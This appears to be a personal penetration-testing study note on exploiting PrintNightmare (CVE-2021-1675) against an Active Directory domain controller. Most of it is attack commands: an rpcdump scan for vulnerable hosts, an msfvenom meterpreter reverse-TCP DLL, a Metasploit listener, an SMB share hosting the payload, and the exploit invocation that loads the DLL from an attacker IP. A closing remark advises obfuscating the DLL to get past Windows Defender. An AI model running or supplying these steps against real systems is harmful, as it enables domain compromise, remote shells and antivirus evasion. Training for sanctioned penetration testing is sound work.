 This is a post compromise attack. We need at least a user account.

cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675

calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675

---

# Scan for vulnerable hosts

Let's scan our DC to see if its vulnerable:
```bash
rpcdump.py @10.0.0.18 | egrep 'MS-RPRN|MS-PAR'
```

Looks like the DC is potentially vulnerable:
![[Pasted image 20240324195546.png]]

# Exploitation

As per the github page this needs the newest impacket version.
In order to get back to the version 0.9 you can use pimpmykali.
=> Probably works with virtual env aswell

1. use msfvenom to create a reverse_tcp DLL
2. host the DLL
3. Run the exploit

Create a reverse_tcp DLL with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f dll > shell.dll
```

Create listener:
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport <port>
run
```

Host the DLL:
```bash
smbserver.py <share-name> <dir> -smb2support
smbserver.py share `pwd` -smb2support
```

Run exploit:
```bash
python3 CVE-2021-1675.py <AD-FQDN>/<domain-user>:<password>@<dc-ip> '\\<attacker-ip>\share\shell.dll'
```

>[!Note] Windows Defender
>Windows Defender blocks the DLL created with msfvenom. In a real engagement we would need to obfuscate the DLL.